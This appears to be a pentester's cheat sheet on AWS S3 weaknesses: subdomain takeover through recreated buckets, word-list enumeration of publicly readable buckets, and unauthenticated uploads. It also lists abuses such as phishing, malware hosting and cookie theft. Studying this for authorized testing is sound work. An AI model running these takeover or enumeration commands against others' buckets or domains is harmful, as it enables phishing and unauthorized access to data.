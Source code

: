 # AWS

## S3 Buckets

### Subdomain Takeover

> Take control of a domain that was previously associated with a deprovisoned AWS resource is also known as a Subdomain Takover vulnerability 

##### Crear bucket

* aws s3 mb s3://example.domain.com
* aws s3api create-bucket --bucket example.domain.com --region eu-west-2 --create-bucket-configuration LocationConstraint=eu-west-2

##### Eliminar bucket

* aws s3 rb s3://example.domain.com --force

##### Configure bucket

* aws s3api put-bucket-policy --bucket example.domain.com --policy file://policy.json

##### Upload to bucket

* aws s3 sync ./static/ s3://example.domain.com
* aws s3 cp poc.html s3://example.domain.com

##### Enable public access

* aws s3 website s3://assets.cloudbilling.net/ --index-document index.html --error-document index.html

#### Gravity

* Hosting Phishing websites
* Hosting Malware
* Bypassing CSP policies
* Stealing Cookie's
* Man-in-the-browser attacks

## Public Read Bucket

A bucket is considered **public** if any user can list the contents of the S3 bucket, and **private** if the bucket's contents can only be listed or written by certain S3 users.

#### Tool

```bash
user@DESKTOP-6F28SID:~$pip install s3recon
user@DESKTOP-6F28SID:~$s3recon "word-list.txt" -o "results.json" --public
- PRIVATE https://s3.us-west-2.amazonaws.com/roblox-test
- PRIVATE https://s3.us-west-2.amazonaws.com/roblox
- PUBLIC https://s3.us-west-2.amazonaws.com/example-test
```

#### Manual
```bash
user@DESKTOP-6F28SID:~$aws s3 ls s3://domain --no-sign-request
An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist
```

#### Code faster than s3recon

```bash
user@DESKTOP-6F28SID:~$cat word-list.txt | xargs -I@ sh -c 'aws s3 ls s3://@ --no-sign-request' | grep -v 'An error occurred (NoSuchBucket) when calling the ListObjectsV2 operation: The specified bucket does not exist'
```

## Public Upload Bucket

#### Manual
```bash
user@DESKTOP-6F28SID:~$aws s3 cp poc.html s3://domain --no-sign-request
load to s3://
```
